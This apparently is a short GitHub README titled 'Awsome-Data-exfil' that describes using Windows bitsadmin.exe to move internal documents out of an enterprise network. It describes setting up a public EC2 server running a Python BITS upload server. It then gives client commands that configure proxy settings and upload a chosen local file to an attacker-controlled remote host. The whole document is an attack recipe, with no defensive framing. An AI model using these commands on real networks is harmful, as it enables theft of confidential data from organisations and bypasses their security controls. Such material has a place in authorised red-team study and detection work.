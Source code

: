 # Awsome-Data-exfil
Data exfiltration with Bitsadmin.exe

############################################################################


Bitsadmin command to exfiltrate internal data outside the enterprise network

--------------------------------Server-side----------------------------------------------


First things first: Set up an EC2 instance or any server publicly accessible on which python should be installed. Dowmload the python implementation of bitsadmin server.
Host the server on the EC2 instance with command like <python simplebitsServer.py 443>


--------------------------------Client-side----------------------------------------------


bitsadmin /setproxysettings Job PRECONFIG

Bitsadmin /Transfer JOB /PRIORITY HIGH /UPLOAD hxxp://<remoteIP/URL>:<port> C:\User\<path to internal document to exfiltrate>
